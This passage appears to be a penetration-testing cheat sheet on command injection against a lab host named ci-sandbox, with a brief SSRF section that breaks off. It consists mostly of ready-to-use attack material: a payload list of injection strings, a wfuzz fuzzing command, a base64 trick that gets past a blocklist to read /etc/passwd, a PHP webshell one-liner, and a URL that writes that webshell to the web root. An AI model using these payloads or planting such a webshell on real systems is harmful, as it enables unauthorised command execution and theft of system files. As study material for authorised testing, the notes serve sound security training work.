 ```
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

And then 
`wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ`

Bypassing with base64 encode
```
kali@kali:~$ echo "cat /etc/passwd" | base64

Y2F0IC9ldGMvcGFzc3dkCg==
```

```
[http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`](http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`)
```

Simple PHP Webshell (Remember, if you are passing this through an http request, you need to encode!)
```
<pre><?php passthru($_GET['cmd']);?></pre>
```

From the larger example of 
```
http://ci-sandbox:80/php/index.php?ip=127.0.0.1;echo+%22%3Cpre%3E%3C?php+passthru(\$_GET[%27cmd%27]);+?%3E%3C/pre%3E%22+%3E+/var/www/html/webshell.php

```

### SSRF
Testing for SSRF can be tricky and varies largely. Best bet is to start an http server on your kali box and use `http://yourIP/` as a parameter in all requests and see if you get any requests back. Remember to use apache2 to record incoming requests because it can log the user agent most readily.

<b>Retrieving data from local services:
